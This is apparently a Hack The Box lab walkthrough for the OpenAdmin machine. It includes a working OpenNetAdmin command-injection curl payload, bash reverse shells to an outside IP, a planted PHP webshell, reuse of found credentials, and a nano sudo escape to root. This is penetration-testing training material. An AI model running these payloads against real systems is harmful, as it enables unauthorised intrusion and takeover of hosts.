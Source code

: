 # 🧠 HTB: OpenAdmin — Walkthrough

**OS:** Linux  
**Difficulty:** Easy  
**Tags:** `OpenNetAdmin`, `webshell`, `password reuse`, `sudo nano`, `GTFObins`

---

## 📡 Recon

### Nmap Scan

```bash
nmap -p- --min-rate 10000 -oA scans/nmap-alltcp 10.10.10.171
nmap -p 22,80 -sC -sV -oA scans/nmap-tcpscripts 10.10.10.171
```

- Open ports: `22 (SSH)`, `80 (HTTP)`
- Apache 2.4.29, OpenSSH 7.6 → Ubuntu 18.04

---

## 🌐 Web Enumeration

### Gobuster

```bash
gobuster dir -u http://10.10.10.171 \
  -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt \
  -x php,txt,html -o scans/gobuster-root-php_txt_html
```

✅ Found:
- `/music`, `/artwork`, `/sierra`, `/ona`

### OpenNetAdmin (ONA)

- Version 18.1.1 (vulnerable)

---

## 🐚 Shell as www-data

### Exploit OpenNetAdmin RCE

```bash
curl -s -d "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;id&xajaxargs[]=ping" http://10.10.10.171/ona/
```

### Reverse Shell Payload

```bash
curl -s -d "xajax=window_submit&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;bash -c 'bash -i >& /dev/tcp/10.10.14.11/443 0>&1'&xajaxargs[]=ping" http://10.10.10.171/ona/
```

### Listener

```bash
nc -lvnp 443
```

✅ Shell as `www-data`

---

## 👤 Priv Esc: www-data → jimmy

### Database Password Reuse

```bash
cat /var/www/html/ona/local/config/database_settings.inc.php
# Found password: n1nj4W4rri0R!
```

### Switch User

```bash
su jimmy
```

✅ Shell as `jimmy`

---

## 👥 Priv Esc: jimmy → joanna

### View Internal Site Config

```bash
cat /etc/apache2/sites-enabled/internal.conf
# Port 52846, user joanna
```

### SSH Tunnel

```bash
ssh jimmy@10.10.10.171 -L 52846:localhost:52846
```

### Path 1: Webshell

```bash
echo '<?php system($_GET["cmd"]); ?>' > /var/www/internal/shell.php
curl "http://127.0.0.1:52846/shell.php?cmd=id"
curl "http://127.0.0.1:52846/shell.php?cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.11/4444 0>&1'"
```

### Path 2: Decrypt Joanna’s SSH Key

```php
# From index.php: password = joanna
# Get key from main.php after login
```

Decrypt the key:

```bash
openssl rsa -in joanna-enc -out id_rsa_joanna
# Pass: bloodninjas
```

Login:

```bash
ssh -i id_rsa_joanna joanna@10.10.10.171
```

✅ Shell as `joanna`  
📄 `cat user.txt`

---

## 🔓 Priv Esc: joanna → root

### Sudo Rights

```bash
sudo -l
# /bin/nano /opt/priv (NOPASSWD)
```

### GTFObins - Nano Shell Escape

```bash
sudo /bin/nano /opt/priv
# Ctrl + R, then Ctrl + X
# Enter: reset; sh 1>&0 2>&0
# Then: bash
```

✅ Root shell  
📄 `cat /root/root.txt`
